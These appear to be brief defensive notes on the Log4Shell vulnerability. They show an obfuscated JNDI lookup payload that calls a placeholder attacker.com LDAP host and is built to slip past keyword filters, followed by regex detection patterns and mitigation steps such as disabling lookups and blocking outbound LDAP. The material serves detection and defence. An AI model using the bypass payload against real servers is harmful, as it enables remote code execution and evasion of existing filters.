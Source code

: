 # Log4Shell notes

If you're filtering on "ldap", "jndi", or the ${lower:x} method, I have bad news for you:
```shell
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}
```
This gets past every filter I've found so far. There's no shortage of these bypasses.

Block the log4j zero day...
```shell
echo "export LOG4J_FORMAT_MSG_NO_LOOKUPS=true" >> /etc/profile.d/blockzero.sh`
```
I know that using regex is dumb and shit, but it's just first-line defense. This one I made is capable to detect obfuscated payloads and should produce very few false positives:
```shell
\${(\${(.*?:|.*?:.*?:-)('|"|`)*(?1)}*|[jndi:(ldap|rm)]('|"|`)*}*){9,10}
```
Added support for LDAPS:
```shell
\${(\${(.*?:|.*?:.*?:-)('|"|`)*(?1)}*|[jndi:lapsrm]('|"|`)*}*){9,11}
```
Also, better pipe the logs through an URL decoder before running the regex

- Disable suspicious outbound traffic, such as LDAP and RMI on the server in PANW Firewall.
- Disable JNDI lookup.
- Remove the JndiLookup file in the log4j-core and restart the service.
- Setup spring.jndi.ignore=true

https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/
